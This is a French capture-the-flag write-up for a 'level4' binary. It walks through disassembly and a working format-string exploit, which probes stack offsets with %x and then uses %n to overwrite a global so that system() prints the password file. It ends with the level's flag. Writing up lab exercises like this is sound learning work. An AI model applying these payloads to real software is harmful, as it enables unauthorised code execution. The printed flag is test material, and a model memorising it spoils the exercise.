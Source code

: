 


# level4


## description
- Il y a un exécutable **level4**.Lorsqu'on l'exécute, il prends des caractères sur **stdin** puis l'affiche.

## Résolution

Dans la fonction n peut voir l'utilisation de **fgets** qui est protégé contre le buffer overflow. 

Dans la fonction **n**, il y a une fonction p qui est appelée qui contient un appel a printf.

      0x08048450 <+12>:    call   0x8048340 <printf@plt>

On voit aussi que **system** appel **cat** sur le fichier **.pass**.

      0x08048499 <+66>:    movl   $0x8048590,(%esp)
       0x080484a0 <+73>:    call   0x8048360 <system@plt>

Dans la fonction n, il y a une comparaison entre la variable **m** et **0x1025544**(16930116)

       0x0804848d <+54>:    mov    eax,ds:0x8049810
       0x08048492 <+59>:    cmp    eax,0x1025544

Donc on va utiliser le format **format string exploit**

    python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit1 && cat /tmp/exploit1 | ./level4 
    
    aaaa b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0
On ne la trouve pas donc on va chercher plus loin.

    python -c 'print "aaaa" + " %x" * 15' > /tmp/exploit1 && cat /tmp/exploit1 | ./level4 
    
    aaaa b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
On trouve notre adresse à la 12e position.

On ne peut pas utiliser la même façon que sur le level3 vu que **fgets** prends maximum 512 caractères.

avec le %d, on peut indiquer la taille du champ.

    python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit1 && cat /tmp/exploit1 | ./level4 
On a le flag.

    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

